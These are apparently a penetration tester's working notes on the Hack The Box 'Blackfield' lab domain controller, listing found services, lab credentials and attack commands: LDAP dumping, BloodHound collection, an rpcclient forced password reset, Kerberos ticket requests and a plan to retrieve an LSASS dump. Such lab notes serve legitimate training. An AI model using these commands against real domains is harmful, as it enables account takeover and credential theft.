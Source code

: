 # Blackfield Notes

## Data 

IP: 10.129.229.17
OS:  DC01 Windows 10.0 Build 17763 x64 
Arch:
Hostname: DC01
DNS: BLACKFIELD.local
Domain: BLACKFIELD.local
Domain SID: S-1-5-21-4194615774-2175524697-3563712290
Machine Purpose: Domain Controller 
Services: 53 dns ,88 kerberos ,135 rpc,389,445,593,3268,5985, smb 445 (signing:True) (SMBv1:False), 
Service Languages:
Users: dc01, audit2020,support,svc_backup,lydericlefebvre and lots of generated
Email and Username Formatting:
Credentials:
```
support : #00^BlackKnight
audit2020 : ComplexP4ssw0rd!

```


#### Mindmap-per Service

- OS detect, run generate noting for nmap - check nmap

- 53
	- no domain transfer
	- `for ns in $(cat /usr/share/seclists/Discovery/DNS/$list.txt); do host $ns.$domain.$tld; done`
	- amass - found nothing..

- 88
- 135
	- NullAuth but not very good
	- CHECK support's access
- 389
- 445
	- Guest get read for `IPC$` and `profile$`
	- forensics share - probably audit2020
	- profile seems like a rabbithole of profiles
	- support has NETLOGON and SYSVOL
	- support spider plus
	- got sysvol share - policy 
- 593
- 3268
- 5985
	- 
-
-
```
ldapsearch -x -H ldap://10.129.229.17 -D 'support@BLACKFIELD.local' -w '#00^BlackKnight' -b "DC=BLACKFIELD,DC=local" | tee -a support-DUMP-entire-domain.ldapsearch

python3 bloodhound.py --dns-tcp -c all -d BLACKFIELD.local -dc DC01.BLACKFIELD.local -ns 10.129.229.17 -u support -p '#00^BlackKnight'

```

- support forcepassword audit2020, but it might accomplish much, given that we cant just download lssas 
	- Probably other directories are just clues.. I just really really wanted that lsass.zip
- svc_backup is the only member of remote management
-
-
-
-
-


#### Todo List

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse
```
rpcclient -U support 10.10.10.192
> setuserinfo2 audit2020 23 'ComplexP4ssw0rd!'
```

- rescan tcp - done
- password spray - done
- profile seems like a rabbithole of profiles -check potentially



```
impacket-getTGT -dc-ip 10.129.229.17 'blackfield.local/audit2020'


smbget # use ccache file to auth in and get lsass.zip
```